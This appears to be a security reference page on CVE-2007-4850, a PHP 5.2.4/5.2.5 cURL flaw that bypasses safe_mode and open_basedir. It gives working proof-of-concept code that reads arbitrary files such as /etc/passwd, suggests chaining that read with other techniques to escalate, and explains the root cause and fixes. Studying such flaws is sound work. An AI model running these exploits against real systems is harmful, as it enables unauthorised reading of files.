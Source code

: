 # PHP 5.2.4 and 5.2.5 PHP cURL

This page documents a legacy but still useful-in-CTFs/local-legacy-installs trick to bypass PHP safe_mode/open_basedir checks using the cURL extension on specific PHP 5.2.x builds.

- Affected: PHP 5.2.4 and 5.2.5 with ext/curl enabled.
- Impact: Read arbitrary local files despite safe_mode or open_basedir restrictions (no direct code execution).
- ID: CVE-2007-4850.

From http://blog.safebuff.com/2016/05/06/disable-functions-bypass/

## One-liner PoC

If safe_mode or open_basedir are active and cURL is enabled, the following will return the contents of the current script:

```php
var_dump(curl_exec(curl_init("file://safe_mode_bypass\x00".__FILE__)));
```

## More explicit PoC (arbitrary file read)

```php
<?php
// Preconditions (legacy): PHP 5.2.4/5.2.5, safe_mode or open_basedir enabled, ext/curl loaded
$target = '/etc/passwd'; // change to the file you want to read
$ch = curl_init();
// The trick is the NUL byte (\x00). Prefix can be any string; checks are confused and the file after the NUL is read.
curl_setopt($ch, CURLOPT_URL, 'file://prefix'.chr(0).$target);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$resp = curl_exec($ch);
$err  = curl_error($ch);
curl_close($ch);
if ($resp !== false) {
    echo $resp; // should contain the target file
} else {
    echo "cURL error: $err\n";
}
?>
```

Notes:
- Use double quotes or chr(0) to inject a real NUL byte. Percent-encoding (%00) will not work reliably.
- This is a file read primitive. Combine with other primitives (log poisoning, session file inclusion, etc.) for further escalation when possible.

## Why this works (short)

The vulnerability lies in how PHP 5.2.4/5.2.5 performed safe_mode/open_basedir checks for file:// URLs in ext/curl. The check parsed the URL and validated a path component, but due to NUL-byte handling it validated a different string than the one actually used by libcurl. In practice, the validator could approve the path after the NUL while libcurl used the part before the NUL as the URL container, enabling a bypass that results in reading the file placed after the NUL byte. See the original analysis and the affected macro in curl/interface.c for details. [CVE-2007-4850].

## Constraints and fixes

- Fixed in later 5.2.x (e.g., distro builds patched to 5.2.6) by correcting the parsing/validation in ext/curl.
- Only affects very old PHP deployments; safe_mode was removed in PHP 5.4 and modern builds do not exhibit this behavior.

## See also

Other disable_functions/open_basedir bypasses and modern techniques are collected here:

[[README.md]]

## References

- Ubuntu CVE entry with patch pointers and affected versions: https://ubuntu.com/security/CVE-2007-4850
- Technical writeup with code context (cxsecurity): http://cxsecurity.com/issue/WLB-2008010060

